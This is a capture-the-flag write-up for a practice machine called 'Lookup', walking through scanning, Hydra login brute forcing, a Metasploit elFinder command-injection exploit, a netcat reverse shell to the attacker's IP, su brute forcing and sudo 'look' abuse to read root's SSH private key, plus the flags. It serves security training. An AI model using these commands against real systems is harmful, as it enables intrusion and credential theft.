# 🕵️‍♂️ Lookup | Writeup | 10 July 2025

<div align="center">
    
</div>
<div align="center">
    
</div>

---

<div align="right">
  <p><strong>Author:</strong> <em>Aakash Modi</em></p>
</div>

---

## 🚩 Table of Contents

- [Reconnaissance & Scanning](#reconnaissance--scanning)
  - [Host Discovery](#host-discovery)
  - [Nmap Scan / Port Scanning](#nmap-scan--port-scanning)
  - [Nikto Scan](#nikto-scan)
  - [Burp Suite Enumeration](#burp-suite-enumeration)
  - [Hydra Brute Force](#hydra-brute-force)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Tools Used](#tools-used)
- [Conclusion](#conclusion)

---

## 🛰️ Reconnaissance & Scanning

### 🔍 Host Discovery

First, add the target host's IP to `/etc/hosts` as `lookup.thm`:

```bash
sudo nano /etc/hosts
# Add the following line:
<IP_address>   lookup.thm
```

<p align="center">
  
</p>

---

### 🔎 Nmap Scan / Port Scanning

Run a full port scan with service and version detection:

```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt lookup.thm
```

<p align="center">
  
</p>

---

### 🕵️ Nikto Scan

Scan for web vulnerabilities:

```bash
nikto -h http://lookup.thm/ -o nikto_scan.txt
```

<p align="center">
  
</p>

---

### 🧰 Burp Suite Enumeration

Use Burp Suite Intruder to enumerate usernames:

<p align="center">
  
</p>

- Found valid username:
  <p align="center">
    
  </p>
- Testing other usernames:
  <p align="center">
    
  </p>

---

### 🔓 Hydra Brute Force

#### Find Usernames

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p admin lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong username or password" -V
```

<p align="center">
  
</p>

- Discovered users:
  1. admin
  2. jose

<p align="center">
  
</p>

#### Find Password

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password" -V
```

<p align="center">
  
</p>

- **Found credentials:**  
  `username: jose`  
  `password: password123`

---

## 🚪 Exploitation

- Login to dashboard:
  <p align="center">
    
  </p>
- Found SSH credentials:
  <p align="center">
    
  </p>

#### Search for Exploits

```bash
searchsploit elfinder
```

<p align="center">
  
</p>

#### Metasploit Exploitation

```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS files.lookup.thm
set LHOST <your_ip>
exploit
```

<p align="center">
  
</p>

- Get a shell:
  ```bash
  shell
  busybox nc <your_ip> 1111 -e bash
  ```
- Stabilize shell:
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm-256color
  cd /tmp
  ```

<p align="center">
  
</p>

---

## 🚀 Privilege Escalation

- Find SUID binaries:
  ```bash
  find / -perm -6000 -type f 2>/dev/null
  ```
  <p align="center">
    
  </p>

- Update PATH:
  ```bash
  export PATH=/tmp:$PATH
  ```

- Use password list and brute-force with [suBF.sh](https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh):

  ```bash
  chmod +x suBF.sh
  ./suBF.sh -u think -w password.txt
  ```

  <p align="center">
    
  </p>

- Check sudo permissions:
  ```bash
  sudo -l
  ```
  <p align="center">
    
  </p>

- Use `look` command for privilege escalation ([GTFOBins](https://gtfobins.github.io/gtfobins/look/)):
  ```bash
  sudo look "" user.txt
  ```
  - **User flag:** `38375fb4dd8baa2b2039ac03d92b820e`
  <p align="center">
    
  </p>

- Extract root SSH key:
  ```bash
  sudo look "" /root/.ssh/id_rsa
  ```
  <p align="center">
    
  </p>

- Copy SSH key to your machine:
  ```bash
  nano id_rsa
  chmod 600 id_rsa
  ```
  <p align="center">
    
  </p>

- SSH as root:
  ```bash
  ssh -i id_rsa root@files.lookup.thm
  ```
  <p align="center">
    
  </p>

- **Root flag:** `5a285a9f257e45c68bb6c9f9f57d18e8`
  <p align="center">
    
  </p>

---

## 🛠️ Tools Used

- Nmap
- Nikto
- Hydra
- Burp Suite
- Netcat (nc)
- Searchsploit
- Metasploit

---

## 🎯 Conclusion

- All tasks completed successfully!

<p align="center">
  
</p>

---

## 🎉 Happy Hacking!
<p align="center">
  <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
    
  </a>
</p>

<p align="center"><strong>I did it!</strong></p>
</p>

---
